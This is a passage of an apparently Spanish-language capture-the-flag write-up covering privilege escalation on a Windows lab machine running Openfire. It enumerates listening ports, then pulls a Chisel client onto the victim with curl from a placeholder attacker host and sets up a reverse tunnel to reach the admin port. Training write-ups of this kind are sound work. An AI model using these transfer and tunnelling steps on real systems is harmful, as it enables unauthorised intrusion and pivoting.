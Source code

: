 ## Privilege Escalation

¡Primera bandera conseguida! Sabemos que el usuario objetivo es **svc_openfire**. Openfire es una plataforma de mensajería instantánea escrita en Java que utiliza el protocolo XMPP. Este sistema permite configurar y gestionar un servidor de mensajería propio, ofreciendo herramientas como administración de usuarios, compartición de archivos, auditoría de mensajes, envío de mensajes offline y broadcast, creación de grupos, entre otras funcionalidades. Además, dispone de numerosos plugins gratuitos que amplían y personalizan sus capacidades.

Con esta información, procedemos a explorar qué puertos están abiertos en la máquina de nuestra víctima utilizando el siguiente comando: 

```zsh
netstat -ano | findstr LIST
```

El resultado muestra que el puerto **9090** está en escucha, indicando que Openfire está corriendo en esta máquina. Aquí un extracto relevante:

```
TCP    127.0.0.1:53           0.0.0.0:0              LISTENING       2092
TCP    127.0.0.1:9090         0.0.0.0:0              LISTENING       3328
TCP    127.0.0.1:9091         0.0.0.0:0              LISTENING       3328
```

El puerto 9090 es particularmente importante, ya que es donde se ejecuta la interfaz administrativa de Openfire. Este hallazgo nos permitirá planificar el siguiente paso para avanzar en la explotación de la máquina.

En este punto, vamos a utilizar **Chisel** para establecer un túnel y realizar pivoting. Los pasos a seguir son los siguientes:

1. **Instalar Chisel en nuestra máquina local (servidor):**  
   Descargamos e instalamos Chisel con el siguiente comando:  
   ```zsh
   sudo apt install chisel
   ```

2. **Descargar el cliente Chisel para Windows:**  
   En la máquina atacante, descargamos el cliente Windows desde el siguiente enlace:  
   [chisel_windows_amd64.gz](https://github.com/jpillora/chisel/releases/tag/v1.10.1)  
   Luego, descomprimimos el archivo con:  
   ```zsh
   gzip -d chisel_1.10.1_windows_amd64.gz
   ```

   Para transferir el cliente a la máquina víctima, podemos servir el archivo desde nuestra máquina atacante y descargarlo en la víctima con:  
   ```zsh
   curl http://ip:8000/chisel_1.10.1_windows_amd64 -o chisel.exe
   ```

3. **Configurar el servidor Chisel:**  
   En nuestra máquina atacante, ejecutamos el servidor con el siguiente comando:  
   ```zsh
   chisel server --reverse --port 8001
   ```
